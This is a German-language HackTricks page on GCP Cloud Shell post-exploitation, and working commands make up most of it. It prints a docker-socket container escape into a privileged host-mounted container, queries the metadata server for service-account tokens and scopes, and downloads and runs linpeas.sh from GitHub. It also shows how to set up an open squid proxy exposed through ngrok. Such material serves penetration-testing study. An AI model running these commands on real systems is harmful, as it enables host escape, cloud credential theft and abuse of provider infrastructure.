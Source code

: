 # GCP - Cloud Shell Nach der Ausnutzung

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
{% endhint %}

## Cloud Shell

Für weitere Informationen zu Cloud Shell siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Beachten Sie, dass die Google Cloud Shell in einem Container läuft, Sie können **einfach zum Host entkommen**, indem Sie Folgendes tun:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Dies wird von Google nicht als Sicherheitslücke betrachtet, gibt Ihnen jedoch einen umfassenderen Überblick darüber, was in dieser Umgebung passiert.

Darüber hinaus ist zu beachten, dass Sie vom Host aus ein Dienstkontotoken finden können:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Mit den folgenden Berechtigungen:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Metadaten mit LinPEAS auflisten:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Nach der Verwendung von [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) mit dem Token des Service-Kontos **wurde keine Berechtigung entdeckt**...

### Verwenden Sie es als Proxy

Wenn Sie Ihre Google Cloud Shell-Instanz als Proxy verwenden möchten, müssen Sie die folgenden Befehle ausführen (oder sie in die .bashrc-Datei einfügen):
```bash
sudo apt install -y squid
```
Nur zur Information: Squid ist ein HTTP-Proxy-Server. Erstellen Sie eine **squid.conf**-Datei mit den folgenden Einstellungen:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
Kopiere die **squid.conf** Datei nach **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Führen Sie schließlich den Squid-Dienst aus:
```bash
sudo service squid start
```
Verwenden Sie ngrok, um den Proxy von außen verfügbar zu machen:
```bash
./ngrok tcp 3128
```
Nach dem Ausführen kopieren Sie die tcp:// URL. Wenn Sie den Proxy aus einem Browser heraus ausführen möchten, wird empfohlen, den tcp:// Teil und den Port zu entfernen und den Port im Portfeld der Proxy-Einstellungen Ihres Browsers einzugeben (Squid ist ein HTTP-Proxyserver).

Für eine bessere Verwendung beim Start sollte die .bashrc-Datei die folgenden Zeilen enthalten:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Die Anweisungen wurden von [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) kopiert. Überprüfen Sie diese Seite für weitere verrückte Ideen, um alle Arten von Software (Datenbanken und sogar Windows) in der Cloud Shell auszuführen.

{% hint style="success" %}
Lernen und üben Sie AWS-Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
{% endhint %}
